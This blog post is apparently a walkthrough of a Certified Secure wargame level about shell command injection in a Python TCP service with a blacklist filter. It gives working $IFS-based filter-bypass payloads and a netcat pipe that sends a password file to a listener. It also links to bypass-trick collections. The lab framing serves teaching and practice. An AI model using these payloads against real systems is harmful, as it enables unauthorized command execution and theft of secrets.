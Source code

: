 ![Logo](/assets/images/belts-brown.png)


In this post we'll continue with the third level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. We will be dealing with another classic vulnerability - _shell command injection_. I really enjoyed this level and I believe it is quite clever.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)
* [Binary Master: Lieutenant - Level 2](https://livz.github.io/2016/02/23/binary-master-lieutenant-2.html)

Before we begin, here's a list of resources containing different tricks to bypass filters meant to prevent command injection:
* [OS Command execution](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution)
* [Bypassing bash command injections restrictions](http://thomasforrer.blogspot.co.uk/2014/07/bypassing-bash-command-injections.html)
* [Command Injection Without Spaces](http://www.betterhacker.com/2016/10/command-injection-without-spaces.html)
* [Bash Brace Expansion Cleverness](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)
 
## 0 - Discovery
```python
#!/usr/bin/env python

import sys
import SocketServer
import os
import string
import threading

HOST = '127.0.0.1'
PORT = 9999
PASSWORD = "iknowthepassword"

class SysTCPHandler(SocketServer.BaseRequestHandler):

    def handle(self):
        self.request.sendall('Password: ')
        
        if self.request.recv(1024).strip() == PASSWORD:                    [1]
            self.request.sendall('$ ')
            cmd = self.request.recv(1024)
    
            while len(cmd) > 0:
                os.system(self.filter(cmd))
                self.request.sendall('> output sent to console\n')
                self.request.sendall('$ ')
                cmd = self.request.recv(1024)

    def filter(self, cmd):                                                 [2]
        # We only want people to pass arguments
        bad_chars = " \t<"

        return cmd.translate(None, bad_chars);

if __name__ == '__main__':
    # We don't need this anymore since it's provided by the upstart service
    #os.chroot('/chroot')
    
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
    
    server = SocketServer.ForkingTCPServer((HOST, PORT), SysTCPHandler)
    server.serve_forever()
```

Let's spend a few moments to understand how this program works. Notice that upon starting, the program changes its group and user ids to level4 (uid=1005, gid=1005):

```python
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
```

There is also an indication that the application will be chroot-ed to **/chroot**. If we inspect this folder, we can see it's owned by root, with no write permissions for other users. That means we'll have a problem - **the python script will not be able to write anything there**:

```
drwxr-xr-x  8 root root  4096 May 12 12:42 chroot
```

Inside this folder we have an interesting file, for which the python script **will have access** - _password.txt_:

```
-rw-r-----  1 root level4   18 May 12 12:36 password.txt
```

After dealing with permissions, the script starts a TCP server listening on port 9999. After checking a hardcoded password at **[1]**, the script will read a command from the user, filter it and then execute it. Filtering is done at **[2]**, based on a blacklist of forbidden characters, including _Space_, _Tab_ and _<_.

## 1 - Vulnerability
 
Although having this blacklist might sound like a good idea (definitely better than nothing), in practice most of the times it is a bad idea to filter known-bad input from the user. Attackers can be very creative.

## 2 - Exploit
So let's see what's the problem. We have two issues:
* First one basically reduces to executing commands without whitespaces. 
* Secondly, we need a way to see the responses.

### Executing commands
The python script executes commands using the following syntax:

```python
os.system(filtered_cnd)
```

According to the [documentation](https://docs.python.org/2/library/os.html#os.system), _os.system_ is implemented by calling the Standard C function **_system()_**. Going further, the [man page](http://man7.org/linux/man-pages/man3/system.3.html) for _system_ function states:

```
       The system() library function uses fork(2) to create a child process
       that executes the shell command specified in command using execl(3)
       as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);
```           

The resources refenreced in the beginning suggest that the **$IFS** environment variable might be a good place to start. After playing with different combinations locally, I've noticed that it works fine, but whenever $IFS is followd by a number or letter, they together get interpreted as a single variable. My workaround was to define more variables when needed. 

So let's see how we can introduce a simple delay, which signifies that the command injection was successful:

```bash
$ python -c 'import os; os.system("T=10&&sleep$IFS$T")'
```

Pasting the same command into the shell of level4 produces a 10-seconds delay - it worked!


### Getting command results

Since there is no possibility to write anything on the disk and also we cannot view the output of our commands, we need to think of another way. Let's be creative. Since this level is a lot about networking, I'll use the Swiss Army Knife **nc** utility to forward any results to me. I'll establish a listener on a port greater than 1024 then trick the filter to accept my command:

```bash
(on a terminal)
$  nc -lvvp 2000

(in the level4 console)
$ MSG=hello&&IP=0&&PORT=2000&&echo$IFS$MSG|nc$IFS-nvv$IFS$IP$IFS$PORT
```

Strangely, however, nothing happens. After some thinking, I realised that the _nc_ program inside the chroot environment is just a symbolic link. Fortunately, **nc.openbsd** is also present in /chroot/bin:

```
$ ls -alh /chroot/bin/nc
lrwxrwxrwx 1 root root 20 May 12 12:36 /chroot/bin/nc -> /etc/alternatives/nc
$ ls -alh /chroot/etc/alternatives/nc
ls: cannot access /chroot/etc/alternatives/nc: No such file or directory
$ ls -alh /chroot/bin/nc.openbsd 
-rwxr-xr-x 1 root root 31K May 12 12:36 /chroot/bin/nc.openbsd
```

Let's see if we can get a simple message back:
![hello](/assets/images/bm8-0.png)

![borat](/assets/images/bm8-1.png)

## 3 - Profit

We can now read the password stored in password.txt, in the root of the chroot environment:

```bash
(in the level4 console)
$ IP=0&&PORT=2000&&cat$IFS/password.txt|nc.openbsd$IFS-nvv$IFS$IP$IFS$PORT

(on the listener)
$ nc -lvvp 2000
Listening on [0.0.0.0] (family 0, port 2000)
Connection from [127.0.0.1] port 2000 [tcp/cisco-sccp] accepted (family 2, sport 51920)
only*******s
```

This concludes the level. in the [next level](https://livz.github.io/2016/03/10/binary-master-lieutenant-4.html) we'll analyse another interestting vulnerability - [Time of check to time of use -TOCTOU](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use).
